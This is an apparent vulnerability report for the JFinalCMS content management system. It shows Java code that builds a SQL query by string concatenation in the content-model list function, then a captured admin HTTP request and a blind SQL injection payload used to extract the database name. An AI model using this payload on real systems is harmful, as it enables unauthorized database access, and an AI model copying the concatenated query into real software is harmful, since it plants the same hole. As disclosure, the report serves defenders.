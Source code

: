 **BUG_Author:**

hadagaga

**Vendor:**

https://github.com/jwillber/JFinalCMS

**Software:**

https://github.com/jwillber/JFinalCMS

**Vulnerability File:**

#### src\main\java\com\cms\entity\ContentModel.java

```java
public Page<ContentModel> findPage(String name,Integer pageNumber,Integer pageSize){
	    String filterSql = "";
        if(StringUtils.isNotBlank(name)){
            filterSql+= " and name like '%"+name+"%'";
        }
	    String orderBySql = DBUtils.getOrderBySql("createDate desc");
		return paginate(pageNumber, pageSize, "select *", "from kf_content_model where 1=1 "+filterSql+orderBySql);
	}
```

​	Going back up, we find that the list controller that is managed by the content model is directly called, and we locate the administrator content management model management on the front-end and the query function point

![image-20241202145718689](img/image-20241202145718689-1733226899925-4.png)

​	After the query is made, the following packets are captured:

```http
GET /admin/content_model/list?name=test&pageSize=20&totalPage=1 HTTP/1.1
Host: 172.23.192.1:8888
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.23.192.1:8888/admin/content_model/list
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: JSESSIONID=9D962EC77EDD63508C413E78024A69B1
Connection: close
```

​	The name parameter in the GET parameter is the injection point, an error is reported when a single quotation mark is entered, and it is normal after entering the annotator, try whether the sleep function is executable to determine whether the function is executable, find that the sleep function can be executed, and construct a payload:

```sql
' and ascii(substr(database(),1,1))=1#
```

​	Use BP blasting

![image-20241202150219419](img/image-20241202150219419-1733226899925-5.png)

​	After processing the data, the database name is obtained:

![image-20241202150256796](img/image-20241202150256796-1733226899925-6.png)